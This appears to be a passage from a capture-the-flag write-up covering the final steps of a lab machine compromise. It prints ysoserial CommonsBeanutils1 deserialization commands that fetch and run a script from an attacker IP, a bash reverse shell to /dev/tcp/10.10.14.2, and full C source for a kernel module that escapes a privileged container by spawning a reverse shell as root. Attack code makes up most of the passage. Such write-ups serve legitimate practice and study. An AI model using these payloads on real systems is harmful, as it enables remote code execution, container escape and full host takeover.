 <br>

Use ysoserial to generate the serialized data. Testing collections, we discover that `CommonsBeanutils1` works.
```
# Create reverse shell file
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.2/3333 0>&1

# Download reverse shell
ysoserial CommonsBeanutils1 'wget 10.10.14.2/rev.sh' | base64 -w 0

# Execute it
ysoserial CommonsBeanutils1 'bash rev.sh' | base64 -w 0
```

### shell as root
Enumerating container privileges.
```
capsh --print
```

Since we have `CAP_SYS_MODULE` permission, we can [follow this](https://greencashew.dev/posts/how-to-add-reverseshell-to-host-from-the-privileged-container/) and get root.

```
# Create reverse-shell.c
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/kmod.h>

static char command[] = "bash -i >& /dev/tcp/10.10.14.2/8888 0>&1"; //Reverse s
hell change ip and port if needed

char *argv[] = {
    "/bin/bash",
    "-c",    // flag make command run from option list
    command, // Reverse shell
    NULL     // End of the list
};
static char *envp[] = {
    "HOME=/",
    NULL // End of the list
};

static int __init connect_back_init(void)
{

    return call_usermodehelper(
        argv[0],      // execution path
        argv,         // arguments for process
        envp,         // environment for process
        UMH_WAIT_EXEC // don't wait for program return status
    );
}

static void __exit connect_back_exit(void)
{
    printk(KERN_INFO "Exiting\n");
}

module_init(connect_back_init);
module_exit(connect_back_exit);


```